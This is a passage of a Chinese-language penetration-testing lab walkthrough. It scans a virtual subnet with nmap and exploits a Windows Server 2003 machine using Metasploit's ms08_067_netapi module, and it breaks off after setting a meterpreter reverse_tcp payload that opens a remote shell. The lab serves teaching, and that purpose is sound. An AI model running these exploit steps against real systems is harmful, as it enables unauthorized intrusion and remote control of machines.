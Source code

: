 
3.确保这两台虚拟机都处于vmnet 8 虚拟网络中，即子网地址10.10.10.0/24 。


4.使用命令```ifconfig```查看kali的IP地址。

<img src="images/lab_exploitwin2k3/kali下ifconfig.png" width="480" alt="kali下ifconfig" />

可知其IP地址为10.10.10.133。

5.在kali中，打开terminal，运行下列命令，使用 nmap 对局域网内活跃主机进行扫描。
``` nmap -sN 10.10.10.0/24```

<img src="images/lab_exploitwin2k3/nmapscan.png" width="480" alt="nmapscan" />

可知win2k3虚拟机的IP地址为10.10.10.130。

6.打开kali中的metasploit-framework.

<img src="images/lab_exploitwin2k3/metasploitable01.png" width="480" alt="metasploitable01" />

7.运行下列命令，加载渗透代码。
```
# 加载渗透代码
use exploit/windows/smb/ms08_067_netapi
# 显示选项
show options
```

<img src="images/lab_exploitwin2k3/metasploitable02.png" width="480" alt="metasploitable02" />

8.设置渗透选项。
```
# 设置RHOST
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.130
# 设置target
msf5 exploit(windows/smb/ms08_067_netapi) > set target 3
# 显示选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```

<img src="images/lab_exploitwin2k3/metasploitable03.png" width="480" alt="metasploitable03" />


9.执行下列命令，加载攻击载荷。
```
# 设置windows/meterpreter/reverse_tcp为攻击载荷
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp
